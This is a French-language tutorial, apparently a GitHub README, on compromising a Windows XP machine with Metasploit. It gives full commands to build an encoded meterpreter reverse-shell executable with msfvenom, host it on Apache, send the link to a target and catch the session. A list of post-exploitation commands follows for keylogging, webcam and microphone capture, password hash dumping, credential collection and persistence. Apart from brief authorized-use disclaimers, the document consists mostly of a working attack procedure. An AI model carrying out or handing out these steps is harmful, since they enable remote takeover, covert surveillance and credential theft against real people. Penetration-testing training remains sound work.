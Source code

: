 ## Prérequis : 
**Windows xp : https://archive.org/details/WinXPSP2HomeEditionFrench**  
**Kali Linux : https://www.kali.org/get-kali/#kali-platforms**

### Étape 1 : **Afficher les exploits disponibles dans Metasploit**
1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Afficher la liste des exploits disponibles** :
   ```bash
   show exploits
   ```
   - Parcourez la liste et choisissez l'exploit souhaité. Pour un simple handler pour reverse shell, on utilise `exploit/multi/handler`.

### Étape 2 : **Créer le payload encodé avec `shikata_ga_nai`**
1. **Afficher les payloads disponibles avec `msfvenom`** :
   ```bash
   msfvenom --list payloads
   ```
   - Choisissez le payload approprié, par exemple `windows/meterpreter/reverse_tcp`.

2. **Créer le payload avec encodage** :
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=<votre_port> -e x86/shikata_ga_nai -i 5 -f exe > payload_encoded.exe
   ```
   - **Explication des options** :
     - `-p windows/meterpreter/reverse_tcp` : Payload pour un reverse shell Meterpreter.
     - `LHOST` : Adresse IP de votre machine attaquante.
     - `LPORT` : Port d'écoute sur votre machine.
     - `-e x86/shikata_ga_nai` : Utilisation de l'encodeur `shikata_ga_nai`.
     - `-i 5` : Nombre d'itérations d'encodage pour augmenter l'obfuscation.
     - `-f exe` : Format du fichier de sortie.

### Étape 3 : **Configurer le listener dans Metasploit**
1. **Sélectionner l'exploit `multi/handler`** :
   ```bash
   use exploit/multi/handler
   ```

2. **Afficher les options disponibles pour l'exploit** :
   ```bash
   show options
   ```

3. **Configurer les options du payload** :
   ```bash
   set payload windows/meterpreter/reverse_tcp
   set LHOST <votre_IP>
   set LPORT <votre_port>
   show options
   ```
   - Vérifiez que toutes les options sont correctement configurées.

4. **Lancer l'exploit** :
   ```bash
   exploit
   ```

### Étape 4 : **Partager le payload via un serveur web**
1. **Copier le payload dans le répertoire du serveur web** :
   ```bash
   cp payload_encoded.exe /var/www/html/
   ```

2. **Vérifier le statut du serveur Apache** :
   ```bash
   service apache2 status
   ```
   - Si le serveur n'est pas démarré, utilisez :
     ```bash
     service apache2 start
     ```

3. **Vérifier l'accès au payload** :
   Accédez au lien suivant depuis un navigateur ou utilisez `curl` :
   ```bash
   curl http://<votre_IP>/payload_encoded.exe
   ```

### Étape 5 : **Partager le lien de téléchargement**
Envoyez le lien à la cible pour télécharger le payload :
```text
http://<votre_IP>/payload_encoded.exe
```

### Étape 6 : **Attendre l'exécution et capturer la session Meterpreter**
Une fois que le payload est exécuté sur la machine cible, la session `meterpreter` sera automatiquement ouverte dans Metasploit, permettant l'interaction avec la cible.

### **Note Importante** :
Cette procédure est réservée aux tests de pénétration éthiques et autorisés sur des systèmes pour lesquels vous avez obtenu la permission. Toute utilisation non autorisée est illégale et contraire à l'éthique.






Une fois que le payload a été installé et que la session `meterpreter` est ouverte sur la machine cible, voici une liste des commandes que vous pouvez utiliser dans Metasploit pour interagir avec la session :

### Commandes de base `meterpreter`
1. **`help`** : Affiche toutes les commandes disponibles.
2. **`sysinfo`** : Affiche les informations système de la machine cible.
3. **`getuid`** : Affiche l'utilisateur actuellement utilisé sur la machine cible.
4. **`getpid`** : Affiche le PID (Process ID) du processus `meterpreter`.
5. **`ps`** : Liste les processus en cours sur la machine cible.
6. **`shell`** : Ouvre un shell Windows sur la machine cible.
7. **`exit`** : Ferme la session `meterpreter`.

### Commandes de gestion de fichiers
1. **`ls`** : Liste les fichiers et dossiers du répertoire courant.
2. **`cd <chemin>`** : Change de répertoire.
3. **`pwd`** : Affiche le répertoire courant.
4. **`download <fichier>`** : Télécharge un fichier de la machine cible vers la machine attaquante.
5. **`upload <fichier>`** : Envoie un fichier de la machine attaquante vers la machine cible.
6. **`rm <fichier>`** : Supprime un fichier sur la machine cible.
7. **`mkdir <dossier>`** : Crée un nouveau dossier sur la machine cible.

### Commandes de gestion de processus
1. **`kill <PID>`** : Tue un processus spécifique sur la machine cible.
2. **`migrate <PID>`** : Migre le `meterpreter` vers un autre processus (utile pour la persistance).

### Commandes de contrôle de session
1. **`background`** : Met la session `meterpreter` en arrière-plan.
2. **`sessions`** : Liste toutes les sessions actives.
3. **`sessions -i <ID>`** : Interagit avec une session spécifique.

### Commandes réseau
1. **`portfwd add -l <port_local> -p <port_distant> -r <IP_cible>`** : Ajoute un port forwarding.
2. **`ifconfig`** : Affiche les interfaces réseau de la machine cible.
3. **`route`** : Gère et affiche les routes sur la machine cible.
4. **`arp`** : Affiche la table ARP de la machine cible.

### Commandes de capture et de surveillance
1. **`screenshot`** : Prend une capture d'écran de la machine cible.
2. **`webcam_list`** : Liste les webcams disponibles sur la machine cible.
3. **`webcam_snap`** : Prend une photo avec la webcam.
4. **`record_mic`** : Enregistre le micro pendant une durée définie.
5. **`keyscan_start`** : Démarre l'enregistrement des frappes de touches (keylogging).
6. **`keyscan_dump`** : Affiche les frappes enregistrées.
7. **`keyscan_stop`** : Arrête l'enregistrement des frappes.

### Commandes de persistance et d'exploitation avancée
1. **`run persistence -h`** : Affiche les options pour configurer la persistance sur la machine cible.
2. **`run getsystem`** : Tente de passer en tant qu'utilisateur `SYSTEM`.
3. **`hashdump`** : Extrait les hachages de mots de passe (nécessite des privilèges élevés).
4. **`run post/windows/gather/credentials/credentials_collector`** : Collecte les informations d'identification de la machine cible.

### Commandes de gestion de l'écran et de la webcam
1. **`webcam_stream`** : Diffuse un flux vidéo en direct de la webcam de la cible.
2. **`screenshare`** : Partage l'écran en temps réel.

### **Conseil de Sécurité**
Ces commandes doivent être utilisées dans le cadre de tests de pénétration éthiques, et uniquement avec l'autorisation explicite des propriétaires des systèmes ciblés. Toute utilisation non autorisée de ces techniques est illégale et contraire à l'éthique.

